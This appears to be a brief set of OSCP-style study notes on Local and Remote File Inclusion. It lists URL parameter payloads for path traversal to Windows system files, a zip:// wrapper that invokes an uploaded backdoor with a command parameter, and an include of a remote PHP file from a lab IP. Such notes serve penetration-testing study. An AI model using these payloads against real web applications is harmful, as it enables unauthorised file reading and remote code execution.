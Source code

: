 [Local File Inclusion](#local-file-inclusion)
[Remote File Inclusion](#remote-file-inclusion)


# Local File Inclusion
- Click stuff to find out if we can find this ?file=, ?page=
- We could also utilize zip://, file:// php://
  - ?file=zip://uploads/upload_xkxkxk.zip%23simple-backdoor&cmd=whoami

![image](https://github.com/nuricheun/OSCP/assets/14031269/c80aca68-e70d-42e5-a1ca-dd124e75324f)

**Windows**
- ?page=C:/Windows/System32/drivers/etc/hosts
- ?page=../../../../../../../../Windows/System32/drivers/etc/hosts
- ?file=zip://uploads/upload_xkxkxk.zip%23simple-backdoor&cmd=whoami

**Linux**



# Remote File Inclusion
- ?page=http://192.168.45.208/somefile.php

